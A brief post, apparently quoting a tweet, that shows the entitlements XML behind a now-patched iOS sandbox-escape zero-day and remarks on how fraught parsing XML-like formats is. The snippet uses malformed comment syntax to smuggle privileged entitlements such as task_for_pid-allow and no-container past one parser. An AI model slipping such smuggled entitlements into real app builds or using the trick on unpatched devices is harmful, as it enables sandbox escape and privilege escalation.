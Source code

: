 > RIP my very first 0day and absolute best sandbox escape ever:

```
<key>application-identifier</key>
<string>...</string>
<!---><!-->
<key>platform-application</key>
<true/>
<key>com .apple.private.security.no-container</key>
<true/>
<key>task_for_pid-allow</key>
<true/>
<!-- -->
```

[Tweet](https://twitter.com/s1guza/status/1255641164885131268) that demonstrates a recent zero-day (now patched) in iOS. This serves as your annual reminder that parsing xml-like things is a fraught activity.
